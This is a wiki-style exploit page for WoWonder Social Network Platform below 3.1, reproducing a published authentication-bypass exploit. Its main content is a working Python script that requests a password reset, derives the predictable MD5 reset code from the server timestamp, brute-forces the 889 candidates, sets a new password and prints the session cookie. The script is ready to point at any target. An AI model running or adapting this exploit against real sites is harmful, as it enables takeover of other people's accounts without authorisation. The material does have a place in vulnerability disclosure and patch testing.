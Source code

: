 <languages />

<translate>

影響版本
--------

</translate>

EXP
---

    # Exploit Title: WoWonder Social Network Platform 3.1 - Authentication Bypass
    # Date: 11.06.2021
    # Exploit Author: securityforeveryone.com
    # Researchers : Security For Everyone Team - https://securityforeveryone.com
    # Vendor Homepage: https://www.wowonder.com/
    # Software Link: https://codecanyon.net/item/wowonder-the-ultimate-php-social-network-platform/13785302
    # Version: < 3.1
    # Tested on: Linux/Windows

    '''
    DESCRIPTION

    In WoWonder < 3.1, remote attackers can take over any account due to the weak cryptographic algorithm in recover.php. The code parameter is easily predicted from the time of day.
    The vulnerability is found the "code" parameter in password reset link. The password reset code can be estimated by combining the password reset link time and the random value generated between 111 and 999.
    if an attacker exploits this vulnerability, attacker may access all accounts in WoWonder application.

    ABOUT SECURITY FOR EVERYONE TEAM

    We are a team that has been working on cyber security in the industry for a long time.
    In 2020, we created securityforeveyone.com where everyone can test their website security and get help to fix their vulnerabilities.
    We have many free tools that you can use here: https://securityforeveryone.com/tools/free-security-tools
    '''

    import requests
    import email.utils as eut
    import calendar, time;
    import hashlib, re;

    url = "http://wowonderlab:80/wowonder/" #change this with your target
    myheaders = {"X-Requested-With": "XMLHttpRequest", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Connection": "close"}
    recoverdata = {"recoveremail": "wowondertest@securityforeveryone.com"}  #change this email with your registered wowonder email address
    req = requests.post(url+"requests.php?f=recover", headers=myheaders, data=recoverdata)
    b = eut.parsedate(req.headers["Date"])
    respepoch = calendar.timegm(time.strptime("{0}-{1}-{2} {3}:{4}:{5}".format(b[0],b[1],b[2],b[3],b[4],b[5]), '%Y-%m-%d %H:%M:%S'))

    for token in range(111,1000):
        str2hash = "{0}{1}".format(token,respepoch)
        email_code = hashlib.md5(str2hash.encode()).hexdigest()

        req_reset = requests.get(url+"index.php?link1=reset-password&code=1_{0}".format(email_code))
        if len(re.findall("New password",req_reset.text)) == 1:
            print(email_code)
            resetdata = {"password": "10711071", "id": "1_"+email_code}
            reqtoken = requests.post(url+"requests.php?f=reset_password", headers=myheaders, data=resetdata)
            print(reqtoken.headers['Set-Cookie'])
            break